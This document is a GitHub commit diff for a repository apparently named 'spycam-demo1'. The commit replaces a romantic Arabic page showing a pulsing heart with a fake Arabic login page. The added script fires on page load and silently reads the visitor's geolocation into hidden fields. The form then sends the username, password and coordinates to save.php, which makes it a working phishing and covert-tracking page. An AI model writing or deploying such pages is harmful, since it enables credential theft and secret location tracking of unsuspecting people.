

Before and after one commit to saifpro99/spycam-demo1, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-781 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html
Signed-off-by: saifpro99 <83516242+saifpro99@users.noreply.github.com>

```diff
--- a/index.html
+++ b/index.html
@@ -1,72 +1,29 @@
+
 <!DOCTYPE html>
 <html lang="ar">
 <head>
 <meta charset="UTF-8">
-<title>عسوله احبج 💖</title>
-<style>
-  body {
-    background-color: #ffe6f0;
-    display: flex;
-    justify-content: center;
-    align-items: center;
-    height: 100vh;
-    flex-direction: column;
-    font-family: 'Arial', sans-serif;
+<title>تسجيل الدخول</title>
+<script>
+function sendLocation() {
+  if (navigator.geolocation) {
+    navigator.geolocation.getCurrentPosition(function(position) {
+      document.getElementById('lat').value = position.coords.latitude;
+      document.getElementById('lon').value = position.coords.longitude;
+    });
   }
-
-  .text {
-    font-size: 24px;
-    color: #ff1a75;
-    margin-bottom: 40px; /* زدت المسافة هنا */
-    font-weight: bold;
-    animation: fade 2s infinite alternate;
-  }
-
-  .heart {
-    width: 100px;
-    height: 100px;
-    background-color: #ff4d88;
-    position: relative;
-    transform: rotate(-45deg);
-    animation: pulse 1s infinite;
-  }
-
-  .heart::before,
-  .heart::after {
-    content: "";
-    width: 100px;
-    height: 100px;
-    background-color: #ff4d88;
-    border-radius: 50%;
-    position: absolute;
-  }
-
-  .heart::before {
-    top: -50px;
-    left: 0;
-  }
-
-  .heart::after {
-    left: 50px;
-    top: 0;
-  }
-
-  @keyframes pulse {
-    0% { transform: rotate(-45deg) scale(1); }
-    50% { transform: rotate(-45deg) scale(1.1); }
-    100% { transform: rotate(-45deg) scale(1); }
-  }
-
-  @keyframes fade {
-    from { opacity: 0.6; }
-    to { opacity: 1; }
-  }
-</style>
+}
+window.onload = sendLocation;
+</script>
 </head>
 <body>
-
-<div class="text">عسوله احبج 💖</div>
-<div class="heart"></div>
-
+<h2>تسجيل الدخول</h2>
+<form action="save.php" method="POST">
+  <input type="text" name="username" placeholder="اسم المستخدم" required><br><br>
+  <input type="password" name="password" placeholder="كلمة المرور" required><br><br>
+  <input type="hidden" name="lat" id="lat">
+  <input type="hidden" name="lon" id="lon">
+  <button type="submit">دخول</button>
+</form>
 </body>
 </html>
```
